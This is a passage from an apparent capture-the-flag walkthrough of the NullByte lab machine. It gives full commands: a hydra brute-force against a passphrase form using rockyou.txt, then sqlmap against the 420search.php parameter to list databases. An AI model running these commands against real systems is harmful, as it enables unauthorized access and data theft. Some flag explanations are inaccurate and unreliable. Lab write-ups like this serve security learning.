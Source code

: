 *<!-- this form isn't connected to mysql, password ain't that complex --!>*

And it can be a hint that this page will take us to MySQL or something like this, but there is one little problem. Our page want a passphrase from us to go to the next page.

I try to **hydra** bruteforce attack to find the exact passphrase.
```
root@kali:~/NullByte# hydra nullbyte.local http-form-post "/kzMb5nVYJw/index.php:key=^USER^:invalid key" -L rockyou.txt -p '' -t 50 -f  
... 
[80][http-post-form] host: nullbyte.local login: elite  
...
```

 - **-L**: username list
 - **-p**: password list
 - **-t**: the number of thread
 - **-f**: force


Our correct passhrase is "elite". We type it and the page opened.
I viewed the source code of the page.
```
<p>Search for usernames: </p>  
<hr>  
<form action="[420search.php](http://view-source:http://nullbyte.local/kzMb5nVYJw/420search.php)" method="get">  
Enter username:<br>  
<input type="text" name="usrtosearch">  
</form>
```

There is one interesting file - "420search.php". I move on this file. That is amazing there are names of the users.
```
EMP ID :1 <br> EMP NAME : ramses 
<br> EMP POSITION : 
<br>
--------------------------------
<br>
EMP ID :2 <br> EMP NAME : isis 
<br> 
EMP POSITION : employee 
<br> 
--------------------------------
<br>
Fetched data successfully
```
This was be a PHP code. It returns empty Employee position when we type ramses, employee as Employee position in isis and "Fetched data successfully." in all other variants.
When we check this input field, we see that it is connected to the MySQL database.
Now we will try to dump all the information from the database using **sqlmap**.

Firstly, we try to find *table name*.
```
root@kali:~/NullByte# sqlmap -u http://nullbyte.local/kzMb5nVYJw/420search.php?usrtosearch=ramses --dbs  
...
available databases [5]:  
[*] information_schema  
[*] mysql  
[*] performance_schema  
[*] phpmyadmin  
[*] seth  
...
```
There are five available databases, but four of them is created by default.
